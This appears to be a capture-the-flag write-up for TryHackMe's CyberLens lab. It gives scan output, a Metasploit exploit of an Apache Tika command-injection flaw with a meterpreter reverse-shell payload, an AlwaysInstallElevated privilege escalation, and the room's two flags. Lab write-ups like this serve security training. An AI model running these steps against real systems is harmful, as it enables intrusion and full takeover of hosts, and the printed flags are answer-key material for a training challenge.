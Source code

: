 So, simply visit the IP that you get form the machine and you get to a website where you can upload images and get it's metadata.

We do usual stuff, `nmap -sV -sC cyberlens.thm -vv`
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-31 19:48 EDT
Nmap scan report for cyberlens.thm (10.201.76.93)
Host is up (0.32s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
80/tcp   open  tcpwrapped
|_http-title: CyberLens: Unveiling the Hidden Matrix
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.57 (Win64)
135/tcp  open  tcpwrapped
139/tcp  open  tcpwrapped
445/tcp  open  tcpwrapped
3389/tcp open  tcpwrapped
|_ssl-date: 2025-07-31T23:57:40+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: CYBERLENS
|   NetBIOS_Domain_Name: CYBERLENS
|   NetBIOS_Computer_Name: CYBERLENS
|   DNS_Domain_Name: CyberLens
|   DNS_Computer_Name: CyberLens
|   Product_Version: 10.0.17763
|_  System_Time: 2025-07-31T23:57:26+00:00
| ssl-cert: Subject: commonName=CyberLens
| Not valid before: 2025-07-30T23:43:27
|_Not valid after:  2026-01-29T23:43:27
5985/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=7/31%OT=5985%CT=1%CU=40113%PV=Y%DS=5%DC=T%G=Y%TM=688C0
OS:2F5%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10D%TI=I%CI=RD%II=I%SS=S%
OS:TS=U)SEQ(SP=104%GCD=1%ISR=10F%TI=RD%CI=RD%II=I%TS=U)SEQ(SP=105%GCD=1%ISR
OS:=10A%TI=RD%CI=RD%II=I%TS=U)SEQ(SP=105%GCD=1%ISR=10C%TI=RD%CI=I%II=RI%TS=
OS:U)SEQ(SP=108%GCD=1%ISR=10A%TI=I%CI=RD%TS=U)OPS(O1=M508NW8NNS%O2=M508NW8N
OS:NS%O3=M508NW8%O4=M508NW8NNS%O5=M508NW8NNS%O6=M508NNS)WIN(W1=FFFF%W2=FFFF
OS:%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M508NW8NNS%C
OS:C=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A
OS:=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%D
OS:F=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 5 hops

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-07-31T23:57:30
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   501.15 ms 10.2.0.1
2   ... 4
5   697.25 ms cyberlens.thm (10.201.76.93)

OS and Service detection performed. Please report any incorrect
```

Nothing much directly so we move on to `GoBuster`. Do some path traversal and see if we can find and access any files.
`gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.201.76.93 -e`

This will give us a lot of interesting stuff. More importantly it give us paths such as `/images`, `/js` and `/css`. I think the `/js` would be interesting. `/images` shows images that are being used across the website.
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.201.76.93
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.201.76.93/.htaccess            (Status: 403) [Size: 199]
http://10.201.76.93/.htpasswd            (Status: 403) [Size: 199]
http://10.201.76.93/Images               (Status: 301) [Size: 235] [--> http://10.201.76.93/Images/]
http://10.201.76.93/aux                  (Status: 403) [Size: 199]
http://10.201.76.93/cgi-bin/             (Status: 403) [Size: 199]
http://10.201.76.93/com3                 (Status: 403) [Size: 199]
http://10.201.76.93/com2                 (Status: 403) [Size: 199]
http://10.201.76.93/com1                 (Status: 403) [Size: 199]
http://10.201.76.93/com4                 (Status: 403) [Size: 199]
http://10.201.76.93/con                  (Status: 403) [Size: 199]
http://10.201.76.93/css                  (Status: 301) [Size: 232] [--> http://10.201.76.93/css/]
http://10.201.76.93/images               (Status: 301) [Size: 235] [--> http://10.201.76.93/images/]
http://10.201.76.93/js                   (Status: 301) [Size: 231] [--> http://10.201.76.93/js/]
http://10.201.76.93/lpt1                 (Status: 403) [Size: 199]
```

`http://10.201.76.93/js/image-extractor.js` here, you can see that there is port **61777** and pat `/meta` that is being used internally.

![[Pasted image 20250731201533.png]]

Accessing this gives you a Apache 1.7 Tika server! Boom. Now let's see if there is any security vulnerability for this version of Apache server!

One google search and we have [RCE (CVE-2018–1335)](https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/)  
and https://www.exploit-db.com/exploits/47208. Now we use the `metasploit` module. It has a module for this CVE so that's convenient!

We can do `searchsploit tika` it will give you the details of all tika exploits that are present on this system. It will tell exact path if you use `-m`. 
```
──(truelyyours㉿kali)-[~/tryhackme/CyberLens]
└─$ searchsploit tika     
------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                |  Path
------------------------------------------------------------------------------ ---------------------------------
Apache Tika 1.15 - 1.17 - Header Command Injection (Metasploit)               | windows/remote/47208.rb
Apache Tika-server < 1.18 - Command Injection                                 | windows/remote/46540.py
Joomla! Component com_cartikads 1.0 - Arbitrary File Upload                   | php/webapps/10984.txt
Mitra Informatika Solusindo cart - SQL Injection                              | php/webapps/5214.txt
------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

```

We can then do `metasploit` exploit as follows:
```bash
msfconsole
use exploit/windows/http/apache_tika_jp2_jscript
set RHOSTS 10.201.76.93
set RPORT 61777
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_kali_ip>
set LPORT <your_listener_port>
exploit
```
Run this and you'll have the reverse shell! Nice!
![[Pasted image 20250731203344.png]]

Go to `C:\Users\CyberLens\Desktop` and the flag is in `user.txt`.
`THM{T1k4-CV3-f0r-7h3-w1n}`

And we have the user flag 🎉😎!

Now we'll try to get root! A quick and dirty `getsystem` from `meterpreter` didn’t work, so I’ll have to get more inventive.

We will do a **Windows Privilege Escalation Awesome Scripts (WinPEAS)**. But again, no need to download anything since this kind of scripts are also available by default as *Exploit Suggester*.
```
msf6 exploit(windows/http/apache_tika_jp2_jscript) > search exploit suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester  .                normal  No     Multi Recon Local Exploit Suggester


Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester
```

We need only to setup a session using set command and we can run it.

As we are lazy, let’s select the first provided:
`use exploit/windows/local/always_install_elevated`
![[Pasted image 20250731213224.png]]

That is the vulnerability for a regular user to install MSI files with high privileges. More info. Again, we need to setup SESSION and LHOST.
![[Pasted image 20250731212140.png]]

We run it and get in as an admin:
![[Pasted image 20250731212216.png]]

Voila!
![[Pasted image 20250731212449.png]]

`THM{3lev@t3D-4-pr1v35c!}`

Congratulations 🎉😎!